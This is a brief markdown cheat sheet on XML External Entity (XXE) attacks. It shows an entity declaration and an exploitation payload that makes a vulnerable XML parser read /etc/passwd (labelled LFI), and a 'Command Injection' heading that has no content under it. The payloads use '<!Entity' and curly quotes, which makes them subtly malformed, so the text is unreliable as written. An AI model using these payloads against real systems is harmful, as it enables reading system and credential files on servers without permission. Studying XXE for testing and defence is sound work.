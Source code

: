# XXE

## Concept
```<!Entity nooranet SYSTEM “file:///etc/passwd”>```

## Exploitation
- LFI
```XML
<!DOCTYPE foo[
<!Entity xxe SYSTEM “file:///etc/passwd”>]>
<foo>&xxe;</foo>
```
- Command Injection
